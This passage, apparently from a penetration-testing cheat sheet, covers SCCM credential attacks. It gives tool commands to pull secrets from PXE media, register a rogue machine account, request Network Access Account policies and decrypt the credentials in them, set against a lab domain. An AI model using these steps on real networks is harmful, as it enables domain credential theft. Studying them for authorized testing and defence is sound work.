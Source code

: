 * On the SCCM Distribution Point: `HKLM\Software\Microsoft\SMS\DP\PxeInstalled` = 1
* On the SCCM Distribution Point: `HKLM\Software\Microsoft\SMS\DP\IsPxe` = 1
* PXE-enabled distribution point

**Exploitation**:

* [csandker/pxethiefy](https://github.com/csandker/pxethiefy)

    ```ps1
    sudo python3 pxethiefy.py explore -i eth0
    ```

* [MWR-CyberSec/PXEThief](https://github.com/MWR-CyberSec/PXEThief)

### CRED-2 Request a policy containing credentials

* [Misconfiguration-Manager - CRED-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-2/cred-2_description.md)

**Requirements**:

* PKI certificates are not required for client authentication
* Domain accounts credential

**Exploitation**:

Create a machine or compromise an existing one, then request policies such as `NAAConfig`

Easy mode using `SharpSCCM`

```ps1
SharpSCCM get secrets -u <username-machine-$> -p <password>
SharpSCCM get naa
```

Stealthy mode by creating a computer.

* Create a machine account with a specific password: `addcomputer.py -computer-name 'customsccm$' -computer-pass 'YourStrongPassword123*' 'sccm.lab/carol:SCCMftw' -dc-ip 192.168.33.10`
* In your `/etc/hosts` file, add an entry for the MECM server: `192.168.33.11 MECM MECM.SCCM.LAB`
* Use `sccmwtf` to request a policy: `python3 sccmwtf.py fake fakepc.sccm.lab MECM 'SCCMLAB\customsccm$' 'YourStrongPassword123*'`
* Parse the policy to extract the credentials and decrypt them using [sccmwtf/policysecretunobfuscate.py](https://github.com/xpn/sccmwtf/blob/main/policysecretunobfuscate.py): `cat /tmp/naapolicy.xml |grep 'NetworkAccessUsername\|NetworkAccessPassword' -A 5 |grep -e 'CDATA' | cut -d '[' -f 3|cut -d ']' -f 1| xargs -I {} python3 policysecretunobfuscate.py {}`

### CRED-3 Extract currently deployed credentials stored as DPAPI blobs

> Dump currently deployed secrets via WMI. If you can escalate on a host that is an SCCM client, you can retrieve plaintext domain credentials.

* [Misconfiguration-Manager - CRED-3](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-3/cred-3_description.md)

**Requirements**:

* Local administrator privileges on an SCCM client
